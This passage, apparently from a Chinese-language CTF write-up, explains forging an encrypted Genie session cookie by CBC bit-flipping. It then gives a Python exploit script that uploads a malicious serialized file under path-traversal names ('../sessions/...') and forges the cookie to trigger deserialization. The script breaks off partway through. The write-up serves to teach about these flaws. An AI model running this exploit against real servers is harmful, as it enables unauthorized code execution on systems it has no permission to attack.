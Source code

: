 最终要构造的密文就长这样：



```
ForgedCiphertext = (("\x10" * 16) XOR Ciphertext(block#4) XOR ("\x1f" * 16)) + CipherText(block#5)
```

> x1f是32-1，32就是两个block的长度。

![](https://i.328888.xyz/2023/03/22/QWIFk.jpeg)



最终解密得到的明文只有`data[1]`1byte，也就是第4个block解密后的第一个byte。我们不知道它是多少，但已经不重要了。



### Genie's exp 



先上传254个恶意文件，文件名从`"../sessions/x01"` 到 `"../sessions/xFF"` (`.`和`/`除外)，然后构造解密后只有1byte的encrypted_sessionid，触发反序列化。我们不需要知道解密的那1byte到底是多少，因为它必然在所有254个文件中。

```python
import requests
import os
import subprocess

if os.path.exists('./exp'):
    os.unlink('exp')

os.system('julia ./gen_session.jl')

with open("exp", "rb") as f:
    payload = f.read()

host ="http://xxxx"
auth = ('xxxx', 'xxxx')


# 从 sessions/<char> 传序列化文件
for i in range(1, 0xff):
    if chr(i) in ["/", "."]:
        continue
    # 用curl而不是requests库 避免被urlEncode编码
    subprocess.run([
        'curl', f"{host}/upload", "-u", ':'.join(auth),
        "-F", b"file=@exp;filename=../sessions/"+bytes([i])
    ], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
    print("Uploading: ", i, "/", len(range(1, 0xff)), end='\r')

# 新版本需要触发两次反序列化，这里触发4次保证能request到
for _ in range(4):
    r = requests.get(host, auth=auth)
    encrypted = bytes.fromhex(r.cookies["__geniesid"])
    print("Orignial session: ", encrypted.hex())

    def xor(a, b):
        return bytes([x ^ y for x, y in zip(a, b)])

    original_padding = b"\x10" * 16
    target = b"A"*15 + bytes([31])
    forged_block = xor(xor(original_padding, target), encrypted[-32:-16])

    forged_session = (forged_block + encrypted[-16:]).hex()
    print("Forged session: ", forged_session)

    try:
```